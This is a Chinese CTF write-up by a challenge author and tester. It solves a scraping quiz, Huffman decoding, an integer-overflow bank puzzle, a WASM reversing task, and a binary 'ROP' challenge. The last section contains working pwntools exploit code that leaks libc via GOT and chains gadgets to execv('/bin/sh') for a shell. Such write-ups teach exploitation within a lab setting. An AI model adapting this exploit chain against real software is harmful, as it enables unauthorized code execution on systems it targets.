


## 无法预料的问答（Algorithm）

**命题背景：**

爬虫小题，题目原型是 [CybricsCTF 2020 的Quiz 题目](https://github.com/maloleg/Cybrics2020_quiz)。但是有两点变化：不再使用某阴间聊天软件 Bot 答题，而是换成 HTML，因为 Web 爬虫的群众基础高一点；回答错误后不再显示正确答案，因此需要更多的猜测次数。

至于这道题的分类为什么是 Algorithm 而不是 Misc 或 Web 呢？因为在确定题目类型的时候，Misc 表示 “文科生都能做”，Web 表示 “最好会一点前后端开发才能做”，本题需要的是写爬虫自动化的技能（直接 requests 当然是坠吼的，不会 requests 的话用按键精灵怼上去刷几百次也能出 Flag），恰好不满足 Misc 或者 Web 的定义。最后考虑到选手需要根据答题结果复原 Emoji 的排序，就勉强放到 Algorithm 里了，毕竟 `std::max` 也在 `<algorithm>` 里不是吗？

**预期解：**

根据题面，推测出 Emoji 按某种顺序构成了一个全序（这个顺序是随机生成的，没什么规律）。每秒可以提交一个 2 到 5 个选项的单选题，提交后将告知结果是否正确。如果猜对了（或者 2 个选项时猜错了，就相当于没有选择的那个是正解），就可以学习到一些知识，利用学到的知识可以逐步推理出 Emoji 的全序关系。

直接放脚本：

```python
import requests
from bs4 import BeautifulSoup
import time
import random

URL = 'http://prob11.geekgame.pku.edu.cn/'
INTV_S = 1.01
TOKEN = '...'

s = requests.Session()

beats = set()

tot_tries = 0

def learn(ans, qs, correct):
    if len(qs)==2 and not correct:
        correct = True
        ans = [q for q in qs if q!=ans][0]
        
    if correct:
        for p in qs:
            if ans!=p: # ans>p
                for a, b in beats.copy(): # a>b
                    if a==p: # ans>a=p>b
                        beats.add((ans, b))
                    elif b==ans: # a>b=ans>p
                        beats.add((a, p))
                beats.add((ans, p))
                
        print('learnt beats', len(beats))

def web_init():
    res = s.post(URL+'/token', data={'token': TOKEN})
    res.raise_for_status()
    time.sleep(INTV_S)
    return res.text

def web_post(choice):
    global tot_tries
    tot_tries += 1
    res = s.post(URL, data={
        'choice': choice,
    })
    res.raise_for_status()
    time.sleep(INTV_S)
    return res.text

def parse(t):
    if 'flag{' in t:
        print(t)
        print('cookies', s.cookies.get_dict())
        print('tries:', tot_tries)
        1/0

    soup = BeautifulSoup(t, 'lxml')
    qs = [elem['value'] for elem in soup.select('input[name=choice]')]
    flashes = [elem.get_text().strip() for elem in soup.select('.alert-info')]
    return qs, flashes
    
def guess(qs):
    possible = []
    for q in qs:
        if all(((q, p) in beats) for p in qs if q!=p):
            print('inferenced')
            return q
        if not any(((p,q) in beats) for p in qs if q!=p):
            possible.append(q)
        
    # fallback
    print('guess from', len(possible))
    return random.choice(possible)
    
def contains_msg(msg, flashes):
    return any(f==msg for f in flashes)
    
def main():
    qs, flashes = parse(web_init())
    print('cookies', s.cookies.get_dict())
    while True:
        gu = guess(qs)
        old_qs = qs
        qs, flashes = parse(web_post(gu))
        
        if contains_msg('submitting too fast', flashes):
            1/0
        
        corr = contains_msg('回答正确，加油哦~', flashes)
        print('->', '+CORR' if corr else ' incorr')
        learn(gu, old_qs, corr)
        
main()
```

上述脚本大概十分钟出 Flag。可以跟自己出 Flag 的时间比较一下，就能知道算法写得怎么样。这题倒也没过多地卡时间，基本上是个算法都能跑出来。

**赛场情况：**

有选手反映连续答对了 20 次也没有拿到 Flag，这是因为题目的代码逻辑有点问题，检查是否出 Flag 是在更新答对次数之前进行的，因此第 20 次正确 POST 之后确实不会显示 Flag。但是再刷新一下页面就出 Flag 了。


## 计算概论B（Algorithm）

**命题背景：**

这题主要考察了选手是否了解 Huffman 编码。还顺便考察一个冷知识：Python 的 `dict`（包括 `Counter`）是有序的。

**预期解：**

拿到 ipynb 之后大致看看代码的逻辑，是把每个字符编码为了前缀不重合的 0-1 串，而且词频已知。此时选手应该怀疑这个编码方式是 Huffman 编码，因为这是最著名的需要用词频来构造的编码方式了。

如果要确定这个就是 Huffman 编码，可以自己实现一下 Huffman，发现 Huffman 出来的编码结果长度跟 ipynb 里面的长度恰好一样。由于 Huffman 编码的最优性，可以确信 ipynb 用的就是 Huffman 编码。

所以我们就需要猜这棵 Huffman 树的具体形态。按照词频可以基本确定每个字符的编码长度，但每一位是 0 还是 1 则不清楚。

如果选手知道一些关于 Python 的冷知识的话，就会知道 CPython 3.6 [采用了一种保持元素插入顺序的 dict 实现](https://bugs.python.org/issue27350)，然后 [dict 保持插入顺序的特性进入了 Python 3.7 标准](https://softwaremaniacs.org/blog/2020/02/05/dicts-ordered/)。这个 ipynb 的解释器版本号是 3.8.3，因此是满足这一标准的。也就是说，这个统计词频的 Counter：



其实泄露了额外的信息：第一个出现的字符是 e，第二个是 2，第三个是 9……

因此，我们知道了 e 是第一个出现的字符，而且知道 e 经过 Huffman 编码的长度是 k，就可以在编码后的文本里直接取前 k 比特，这就是 e 的编码。然后以此类推，就可以知道所有字符的编码。

另外，由于词频可能有重复的情况，这导致了构造 Huffman 树时每个字符的编码长度可能不唯一。对于这道题来说，由于 c 和 d 的词频都是 35，使得其中一个的编码长度是 6、另一个是 7。只要分别尝试两种可能性即可。

解题脚本如下：

```python
import pickle
import binascii
from collections import Counter

cnt_map = {'e': 70,
         '2': 274,
         '9': 81,
         '4': 124,
         '7': 311,
         '1': 77,
         '6': 649,
         'd': 35,
         'f': 69,
         '0': 208,
         '5': 119,
         'c': 35,
         'a': 3,
         '8': 55,
         '3': 94,
         'b': 6}

unk = list(cnt_map.keys())

huffs = [(v,k) for k,v in cnt_map.items()] # cnt, char

while len(huffs)>1:
    huffs.sort(key=lambda x:x[0])
    c1,t1 = huffs[0]
    c2,t2 = huffs[1]
    if len(huffs)>2 and c2==huffs[2][0]:
        conf=0
        for h in huffs:
            if h[0]==c2:
                print(h)
                conf+=1
        print('-- confusion', conf)
    huffs = huffs[2:]
    huffs.append((c1+c2, [t1, t2]))
    
codecs = []
def dfs(tree, pfx):
    if isinstance(tree, str):
        codecs.append((tree, pfx))
    else:
        dfs(tree[0], pfx+'0')
        dfs(tree[1], pfx+'1')
        
dfs(huffs[0][1], '')

codecs_map = {k:v for k,v in codecs}

lines = []
lenmap = {} # char: len
lines_set = set()
for c in cnt_map.keys():
    if c not in lines_set:
        lines.append((c, cnt_map[c], len(codecs_map[c])))
        lenmap[c] = len(codecs_map[c])
        lines_set.add(c)

lines.sort(key=lambda x: (x[1], -x[2]))

def decode(s):
    knowns = [] # bits -> char
    unkidx = 0
    
    sidx = 0
    decoded = []
    while sidx<len(s):
        #print(s[sidx:sidx+10])
        for bits, char in knowns:
            if s[sidx:].startswith(bits):
                #print('known', char)
                decoded.append(char)
                sidx += len(bits)
                break
        else: # new
            char = unk[unkidx]
            unkidx += 1
            lenbits = lenmap[char]
            bits = s[sidx:sidx+lenbits]
            knowns.append((bits, char))
            decoded.append(char)
            sidx += lenbits
            print('new', char, bits)
    
    return binascii.unhexlify((''.join(decoded)).encode()[::-1])

encoded = '（编码的0-1串）'

lenmap['d'], lenmap['c'] = lenmap['c'], lenmap['d']

print(decode(encoded))
```

**赛场情况：**

解出 Flag 的**大多数选手**都不知道 dict 元素保持插入顺序，但还是硬搞出来了。因为字符只有 16 种，连蒙带猜也能搞出来。而且[有的 Huffman 编码库](https://pypi.org/project/dahuffman/)直接跑一下就能得到一个大多数字符都正确的解码结果……

另外有选手表示没注意到 `text = text[::-1]`，被坑了好久。这里可不是胖虎我故意刁难大家，而是如果不逆序一下的话，Counter 的顺序有点容易看出来（从上往下按 ASCII 码解一下就能解出前几个字母）。

但还是被非预期解打爆了，呜呜。


# 验题 Writeup

在验题过程中有些题目感觉有意思，把我的解法也大致说一下<del>，顺便来一点暴论</del>（x


## 2038 年的银行（Misc）

只要点点点就能出 Flag，是场上唯一一道用智能冰箱答题体验良好的题目（x

首先随便玩玩，不难发现用正常办法是弄不到 Flag 的，因为总资产 500，每天利息 2% 就是最多 10 块，但一个面包也 10 块，所以钱不会变多。

由于借款额度是存款的 10 倍，容易想到可以通过借款来刷额度，即在银行 A 借来钱存到 B 上，在银行 B 借来钱存到 C 上，这样就可以每次把额度翻十倍。额度最高能刷到 2000000000。

题目 “2038” 显然是在暗示 32 位有符号整数溢出问题，稍微玩玩就会发现欠款和存款超过 2147483647 之后都会溢出。但可惜限制了还款不能还负数，所以没法直接利用这个 Bug，欠款会在 +20 亿和 -20 亿之间反复横跳，但只有在正数的时候可以还。

但是由于有三个银行，就有搞头了。假设我们在银行 A 借 20 亿，在银行 B 和 C 分别存 10 亿，那么当银行 A 的欠款在 ±20 亿反复横跳的过程中，B 和 C 的利息都是在稳步计算的。这样多睡几天之后，我们依然只需要还 20 亿欠款，却有了两笔 20 亿存款。这样就可以把钱还上然后买 Flag 了。

这道题虽然不涉及什么具体的网安知识，从头到尾连 DevTools 都不用打开一下，但它却体现了安全研究所需要的思维：[搞安全「猥琐」最重要](https://www.zhihu.com/question/28754900)（这句话最初的源头大概是知道创宇？）。从各个角度测试系统的表现，然后敏锐地发现系统缺陷、迅速 <del>搞钱</del> 构造出攻击方法，这种思维方式比熟练记忆一百种漏洞的利用方法要重要得多。这也是为什么我出 Web 题特意避开了 PHP 反序列化、SQL 注入、Java XXE 这些常见套路题。


## 未来的机器（Binary）

一上来就看到 600 多行汇编，听说还真有不少选手强行逆出来了，太卷了太卷了。

但我不想弄得这么麻烦，所以先看看这个汇编是什么格式的。搜索 `$env.abortStackOverflow` 可以发现这是一个 Emscripten 生成的 WASM 代码 <del>所以此题可以分类为 Web</del>，用 WABT 形式表示的，但是又不完全是 WABT，因为 WABT 的函数头尾被删掉了。

因为懒得复原 WABT，我们换一个思路。首先简单写一个把汇编翻译为 C 代码的脚本：

```python
from collections import deque

with open('asm.txt') as f:
    lines = f.read().splitlines()
    
out=[]
out.append('int t1, t2;')
label_def = set()

s = deque()

for lno, line in enumerate(lines):    
    def spush():
        s.append(lno)
        out.append('int s%d;'%lno)
        return 's%d'%lno

    def spop():
        return 's%d'%s.pop()
    
    #out.append(f'report_line({lno});')
    ops = line.split()
    op = ops[0]
    if op=='global.get':
        idx = int(ops[1][len('$global'):])
        out.append(f'{spush()} = global[{idx}];')
    elif op=='local.set':
        idx = int(ops[1][len('$var'):])
        out.append(f'local[{idx}] = {spop()};')
    elif op=='i32.const':
        i = int(ops[1])
        out.append(f'{spush()} = {i};')
    elif op=='i32.add':
        out.append(f't2={spop()}; t1={spop()}; {spush()} = (t1+t2);')
    elif op=='i32.sub':
        out.append(f't2={spop()}; t1={spop()}; {spush()} = (t1-t2);')
    elif op=='i32.mul':
        out.append(f't2={spop()}; t1={spop()}; {spush()} = (t1*t2);')
    elif op=='i32.rem_s':
        out.append(f't2={spop()}; t1={spop()}; {spush()} = (t1%t2);')
    elif op=='i32.and':
        out.append(f't2={spop()}; t1={spop()}; {spush()} = (t1&t2);')
    elif op=='i32.or':
        out.append(f't2={spop()}; t1={spop()}; {spush()} = (t1|t2);')
    elif op=='global.set':
        idx = int(ops[1][len('$global'):])
        out.append(f'global[{idx}] = {spop()};')
    elif op=='i32.ge_s':
        out.append(f't2={spop()}; t1={spop()}; {spush()} = (t1>=t2);')
    elif op=='i32.eq':
        out.append(f't2={spop()}; t1={spop()}; {spush()} = (t1==t2);')
    elif op=='i32.ne':
        out.append(f't2={spop()}; t1={spop()}; {spush()} = (t1!=t2);')
    elif op=='i32.lt_s':
        out.append(f't2={spop()}; t1={spop()}; {spush()} = (t1<t2);')
    elif op=='i32.shl':
        out.append(f't2={spop()}; t1={spop()}; {spush()} = (t1<<t2);')
    elif op=='i32.eqz':
        out.append(f't1={spop()}; {spush()} = (t1==0);')
    elif op=='if':
        out.append(f't1={spop()}; if(t1) {"{"}')
    elif op=='call':
        out.append(f'// call "{ops[1]}";')
    elif op=='end':
        if len(ops)==2:
            idx = int(ops[1][len('$label'):])
            if idx not in label_def:
                out.append(f'label{idx}: ; {"}"}')
            else:
                out.append('}')
        else:
            out.append('}')
    elif op=='local.get':
        idx = int(ops[1][len('$var'):])
        out.append(f'{spush()} = local[{idx}];')
    elif op=='loop':
        idx = int(ops[1][len('$label'):])
        label_def.add(idx)
        out.append(f'label{idx}: {"{"}')
    elif op=='block':
        idx = int(ops[1][len('$label'):])
        out.append(f'{"{"}')
    elif op=='i32.store':
        out.append(f't2={spop()}; t1={spop()}; memory[t1]=t2;')
    elif op=='i32.load':
        out.append(f't1={spop()}; {spush()} = memory[t1];')
    elif op=='br':
        idx = int(ops[1][len('$label'):])
        out.append(f'goto label{idx};')
    elif op=='return':
        out.append(f't1={spop()}; return t1;')
    elif op=='else':
        out.append(f'{"}"} else {"{"}')
    else:
        raise ValueError(op)
        
print('\n'.join(out))
```

运行一下得到接近一千行的 C，嗯……意料之中。

但是，如果我们用 GCC 编译一下，稍微开点优化，然后拖到 IDA 里面激爽 F5，神奇的事情就发生了：它变成不到一百行的 C 程序了，而且循环结构也比较清晰。神奇吧？



神奇就对了！拿到 C 程序之后，调试就十分愉快，下断点加 printf 都可以。

总之这个程序似乎先把每个字符都替换了一下，然后交换了一些字符的顺序。字符替换的表在内存的 1952 位置，交换顺序的表在内存的 2336 位置。替换完的结果在 1152，交换完顺序的结果在 1552。最后程序把 1552 的字符串和 5400 处的答案比较。

增加了一些 printf 调试语句的程序如下：

```cpp
#include <cstdio>
#include <cstdlib>
#include <cstring>
#include <stack>
using namespace std;

const int MEM_TRANS_TABLE = 1952;
const int MEM_3776 = 3776;
const int MEM_SWAP_TABLE = 2336;
const int MEM_TRANS_RES = 1152;
const int MEM_SWAP_RES = 1552;
int global[32], memory[16384];

int foo() {
    int v0; // er10
    int *v1; // rdx
    int v2; // eax
    int v3; // er8
    int v4; // ecx
    __int64 v5; // rax
    int v6; // er11
    __int64 CONST_4982; // r11
    int v8; // esi
    unsigned int v9; // edx
    int v10; // er9
    int idx; // eax
    signed int v13; // er8
    int v14; // eax
    int v15; // er9
    __int64 v16; // rax
    int v17; // ebx
    int v18; // ecx
    int v19; // eax
    int v20; // er9
    int v21; // edx

    v0 = global[16];
    v1 = &memory[MEM_TRANS_TABLE];
    v2 = 0;
    do {
        *v1 = v2++;
        v1 += 4;
    } while (v2 != 96);

    memory[MEM_3776] = 1;
    v3 = 1;
    v4 = 114514;
    do {
        v4 = (1919 * v4 + 7) % 334363;
        v5 = 4 * (v4 % v3) + MEM_TRANS_TABLE;
        v6 = memory[v5];
        memory[v5] = memory[4 * v3 + MEM_TRANS_TABLE];
        memory[4 * memory[MEM_3776] + MEM_TRANS_TABLE] = v6;
        v3 = memory[MEM_3776] + 1;
        memory[MEM_3776] = v3;
    } while (v3 <= 95);

    printf("trans_table = [\n");
    for(int i=0; i<96; i++) // trans table
        printf("%d, ", memory[MEM_TRANS_TABLE + i * 4]);
    printf("]\n");

    memory[MEM_3776] = 0;
    CONST_4982 = global[18];
    if (memory[global[18]] > 0) {
        v8 = global[21];
        v9 = memory[global[21]] - 32;
        if (v9 > 0x5F) {
            LABEL_10:
            global[16] = v0;
            return -1;
        }
        v10 = 0;
        idx = 0;

        while (1) {
            memory[v10 + MEM_TRANS_RES] = (memory[4 * v9 + MEM_TRANS_TABLE] + idx) % 96 + 32;
            idx = memory[MEM_3776] + 1;
            memory[MEM_3776] = idx;
            if (memory[(signed int) CONST_4982] <= idx)
                break;
            v10 = 4 * idx;
            v9 = memory[4 * idx + v8] - 32;
            if (v9 > 0x5F)
                goto LABEL_10;
        }

        for(int i=0; i<memory[global[18]]; i++) // trans result
            printf("1152 [%d] = %c\n", i, memory[MEM_TRANS_RES + 4 * i]);
    }
    memory[MEM_3776] = 0;
    if (memory[(signed int) CONST_4982] > 0) {
        v13 = MEM_SWAP_TABLE;
        v14 = 0;
        do {
            memory[v13] = v14++;
            memory[MEM_3776] = v14;
            v13 += 4;
        } while (memory[(signed int) CONST_4982] > v14);
    }
    memory[MEM_3776] = 1;
    if (memory[(signed int) CONST_4982] > 1) {
        v15 = 1;
        do {
            v4 = (1919 * v4 + 7) % 334363;
            v16 = 4 * (v4 % v15) + MEM_SWAP_TABLE;
            v17 = memory[v16];
            memory[v16] = memory[4 * v15 + MEM_SWAP_TABLE];
            memory[4 * memory[MEM_3776] + MEM_SWAP_TABLE] = v17;
            v15 = memory[MEM_3776] + 1;
            memory[MEM_3776] = v15;
        } while (memory[(signed int) CONST_4982] > v15);
    }
    printf("swap_table = [\n");
    for(int i=0; i<41; i++) // swap table
        printf("%d, ", memory[MEM_SWAP_TABLE + i * 4]);
    printf("]\n");

    memory[MEM_3776] = 0;
    v18 = memory[(signed int) CONST_4982];
    if (v18 > 0) {
        v19 = 0;
        do {
            memory[4 * memory[4 * v19 + MEM_SWAP_TABLE] + MEM_SWAP_RES] = memory[4 * v19 + MEM_TRANS_RES];
            v19 = memory[MEM_3776] + 1;
            memory[MEM_3776] = v19;
            v18 = memory[(signed int) CONST_4982];
        } while (v18 > v19);
    }

    for(int i=0; i<memory[global[18]]; i++) // swap result
        printf("1552 [%d] = %c\n", i, memory[MEM_SWAP_RES + 4 * i]);

    if (memory[global[20]] != v18) {
        global[16] = v0;
        return 0;
    }
    memory[MEM_3776] = 0;
    if (memory[(signed int) CONST_4982] <= 0)
        goto LABEL_SUCC;
    v20 = global[19];

    for(int i=0; i<memory[CONST_4982]; i++) // answer
        printf("5400 [%d] = %c\n", i, memory[5400 + 4*i]);

    if (memory[MEM_SWAP_RES] == memory[global[19]]) {
        v21 = 0;
        CONST_4982 = (signed int) CONST_4982;
        while (1) {
            memory[MEM_3776] = ++v21;
            if (memory[CONST_4982] <= v21)
                break;
            if (memory[4 * v21 + MEM_SWAP_RES] != memory[v20 + 4 * v21])
                goto LABEL_FAIL;
        }
        LABEL_SUCC:
        global[16] = v0;
        return 1;
    }
    LABEL_FAIL:
    global[16] = v0;
    return 0;
}

int main() {
    global[18] = 4982;
    global[19] = 5400;
    global[20] = 4986;
    global[21] = 5000;
    char key[] = ".q~03QKLNSp\"s6AQtEW<=MNv9(ZMYntg2N9hSe5=k";
    int keylen = strlen(key);
    for (int i = 0; i < keylen; i++)
        memory[5400 + 4 * i] = (unsigned char) key[i];
    memory[4986] = keylen;

    char flag[] = "qqqqqwwwwweeeeerrrrrtttttyyyyyuuuuuiiiiio";
    int len = strlen(flag);
    memory[4982] = len;
    for (int i = 0; i < len; i++)
        memory[5000 + 4 * i] = (unsigned char) flag[i];
    int ret = foo();
    return ret;
}
```

我们用 Python 可以模拟替换字符和交换顺序的算法以及其逆过程：

```python
trans_table = [
22, 65, 61, 31, 87, 19, 38, 95, 4, 0, 54, 3, 55, 5, 9, 53, 11, 45, 67, 14, 40, 91, 42, 29, 18, 62, 39, 68, 88, 60, 83, 47, 58, 44, 63, 6, 20, 94, 90, 70, 23, 93, 43, 82, 1, 37, 41, 32, 80, 33, 85, 73, 86, 76, 35, 66, 12, 16, 78, 24, 7, 52,17, 10, 25, 84, 74, 81, 59, 75, 2, 48, 27, 49, 26, 21, 57, 56, 92, 69, 8, 13, 89, 15, 50, 28, 30, 46, 64, 79, 51, 77, 34, 72, 36, 71]
swap_table = [
11, 26, 23, 36, 1, 31, 22, 10, 27, 4, 18, 30, 13, 19, 34, 24, 32, 21, 0, 39, 2, 5, 35, 14, 37, 40, 38, 17, 6, 28, 25, 33, 8, 12, 7, 16, 9, 29, 15, 20, 3]

assert len(trans_table)==96
assert len(swap_table)==41

rev_trans_table = [None]*96
for i,x in enumerate(trans_table):
    rev_trans_table[x] = i
    
def do_trans(s):
    return ''.join([chr(32+(trans_table[ord(c)-32]+i)%96) for (i,c) in enumerate(s)])

def rev_trans(s):
    return ''.join([chr(rev_trans_table[(96-i+ord(c)-32)%96]+32) for (i,c) in enumerate(s)])

def do_swap(s):
    out = [None]*len(s)
    for i,c in enumerate(s):
        out[swap_table[i]]=c
    return ''.join(out)

def rev_swap(s):
    out = [None]*len(s)
    for i,c in enumerate(s):
        out[i]=s[swap_table[i]]
    return ''.join(out)

key = ".q~03QKLNSp\"s6AQtEW<=MNv9(ZMYntg2N9hSe5=k"
print(rev_trans(rev_swap(key)))
```

即可得到 Flag。


## 庄子的回文（Binary）

基本的的 ROP，栈溢出的位置很明显，在 run 函数里：



老规矩，检查一下保护，发现开了 NX：



用 ROPgadget 看了看，.text 段没什么好利用的，考虑 ret2libc。

PLT 表里面有 puts，所以首先打印出来 GOT 表里的随便什么东西即可泄露出 libc 的地址：

```python
from pwn import *

elf = ELF('./rop')
libc = ELF('./libc-2.31.so')

STACK_OFFSET = 0X88
PROBE_FUNC = 'printf'

out = (
    b'a'*STACK_OFFSET +
    p64(0x4013c3) + # pop rdi; ret
    p64(elf.got[PROBE_FUNC]) +
    p64(elf.symbols['puts']) +
    p64(elf.symbols['run'])
)

p = process('./rop')
p.sendline('2')
p.sendline(out)

print(repr(p.recvline())) # This is a solution ...
print(repr(p.recvline())) # PWN it!\n
print(repr(p.recvline())) # aaaaa...
addrline = p.recvline() # {addr}\n
print(repr(addrline))

assert len(addrline)==7 
libc_addr = u64(addrline[:6] + b'\x00\x00') - libc.symbols[PROBE_FUNC]
```

然后在 libc 里面找到 execv 和 /bin/sh 字符串，就可以弹 shell 了。

```python
binsh_addr = next(libc.search(b'/bin/sh\x00'))

out = (
    b'a'*STACK_OFFSET +
    p64(0x4013c3) + # pop rdi; ret
    p64(libc_addr + binsh_addr) +
    p64(0x4013c1) + # pop rsi; pop r15; ret
    p64(0) + p64(0) +
    p64(libc_addr + libc.symbols['execv']) +
    p64(elf.symbols['run'])
)

p.sendline(out)
p.interactive()
```

在 shell 里输入 `cat flag`，啪地一下即可得到 Flag。

好久没做 Pwn 了，遇到了不少问题，比如 exp 里面有空白字符就输入不进去（因为它用的 `%s`）需要换 gadget，用 system（而不是 execv）会崩因为栈没有对齐。

有些选手也在问卷里吐槽题目环境和本地环境不一样，所以在远程死活打不通，说这题出得不好。我倒觉得这个吐槽没什么道理：在面对真实系统的时候，黑客难道还能让对面的管理员重装成指定的系统版本方便你 Pwn 吗？当然是黑客适应环境，而不是环境适应黑客。

把 Pwn 题调通确实是有一定难度的，但这正是 Pwn 的特点。


**以上是本人的 Writeup。师傅们下届再见！**